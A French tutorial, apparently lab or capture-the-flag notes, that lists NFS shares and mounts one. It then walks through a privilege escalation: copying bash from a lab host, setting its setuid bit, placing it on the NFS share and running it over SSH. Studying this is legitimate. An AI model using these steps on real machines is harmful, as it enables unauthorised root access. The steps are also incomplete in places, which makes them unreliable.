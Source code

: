 # NFS

#### Tuto NFS (Network File System)

NFS (Network File System) est un protocole utilisé pour partager des fichiers et des répertoires entre différents systèmes sur un réseau. Voici un guide complet pour interagir avec des partages NFS.

***

### **1. Découvrir les Partages NFS Disponibles**

Pour lister les partages disponibles sur une machine distante :

```bash
/usr/sbin/showmount -e [IP machine distante]
```

**Explication :**\
`showmount -e` affiche les répertoires exportés (partages NFS) disponibles sur la machine distante.

***

### **2. Créer un Point de Montage**

Avant de monter un partage NFS, créez un répertoire local qui servira de point de montage :

```bash
mkdir /tmp/mount
```

**Explication :**\
Ce répertoire sera utilisé pour accéder au contenu partagé par le serveur NFS.

***

### **3. Monter un Partage NFS**

Pour connecter un partage NFS à votre point de montage :

```bash
sudo mount -t nfs [IP machine distante]:[répertoire partagé] /tmp/mount -nolock
```

**Explication :**

* `-t nfs` : Indique que le système de fichiers est de type NFS.
* `[IP machine distante]:[répertoire partagé]` : Spécifie l’adresse IP du serveur et le répertoire partagé.
* `/tmp/mount` : Point de montage local sur votre machine.
* `-nolock` : Désactive le verrouillage des fichiers, utile pour éviter certains conflits avec NFS.

***

### **4. Transférer des Fichiers via SCP**

Pour récupérer un fichier (comme un exécutable `bash`) depuis une machine distante :

```bash
scp -i id_rsa [utilisateur]@[IP distante]:/chemin/vers/fichier ~/Téléchargements/
```

**Exemple :**

```bash
scp -i id_rsa cappucino@10.10.72.89:/bin/bash ~/Downloads/bash
```

**Explication :**

* `scp` : Utilitaire de copie sécurisée.
* `-i id_rsa` : Utilise une clé privée pour s’authentifier.
* `[utilisateur]@[IP distante]:[chemin fichier]` : Spécifie la machine distante, l’utilisateur, et le fichier à récupérer.
* `~/Téléchargements/` : Chemin local où le fichier sera sauvegardé.

***

### **5. Modifier les Droits sur le Fichier**

Pour définir le bit `suid` sur un fichier (ce qui permet d'exécuter le fichier avec les privilèges de son propriétaire) :

```bash
chmod +s bash
```

**Explication :**

* `+s` : Ajoute le bit `setuid`, permettant au fichier d’hériter des privilèges de l’utilisateur propriétaire.

***

### **6. Déplacer le Fichier sur le Partage NFS**

Déplacez le fichier modifié vers le partage monté :

```bash
mv ~/Downloads/bash /tmp/mount/[utilisateur]
```

***

### **7. Exécuter le Fichier sur la Machine Cible**

Reconnectez-vous à la machine distante en SSH et exécutez le fichier transféré :

```bash
ssh -i id_rsa [utilisateur]@[IP distante]
./bash
```

**Explication :**

* `ssh` : Accès à distance à la machine.
* `./bash` : Lance l’exécutable `bash` sur la machine distante avec les droits définis.
